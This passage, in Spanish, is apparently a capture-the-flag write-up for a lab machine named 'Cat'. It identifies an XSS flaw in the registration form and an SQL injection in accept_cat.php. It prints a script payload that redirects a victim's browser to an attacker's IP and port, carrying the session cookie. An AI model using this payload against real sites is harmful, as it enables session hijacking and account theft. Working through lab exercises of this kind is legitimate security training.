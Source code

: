 Después de ver varios archivos tenemos algo muy importante en el archivo de join.php , este es vulnerable a un ataque XSS y el accept_cat.php es vulnerable a una SQLI

Este será nuestro camino

- Explotar el XSS en el la sección de ``Join`` (registrarse)
- Explotar el SQLI en ``accept_Cat.php ``


# Visitando a Cat (XSS)

Cuando entramos a la pagina de Cat podemos ver que la pagina se basa en una votación para Gatos, pero iremos al grano, el XSS ocurre en el formulario de Join que sirve para registrarnos, en especifico son los campos de `username` y `password`, por que no sanitizan la entrada del usurario, pero para que funcione de manera correcta este será el procedimiento  

- Crearemos una cuenta donde el nombre del usuario y de la contraseña sea una etiqueta 
	script las cuales robaran la cookie de sección(Posiblemente el administrador)

- Entraremos a la pagina con el usuario que creamos anteriormente

- Y añadiremos un nuevo gato para la votación 

Algo importante a considerar es que la pagina tiene reglas establecidas por el CORS que no permiten XMLHttpRequest de JS por lo cual usaremos el siguiente script: 

```js
<script>document.location='http://10.10.X.X:PORT/?c='+document.cookie;</script>
```

Esta alternativa no infringe las normas del CORS pero cuando el usuario la ve, lo redirige y es mucho mas ruidoso, así que ten cuidado.

![paste](./Images1/5.jpeg)

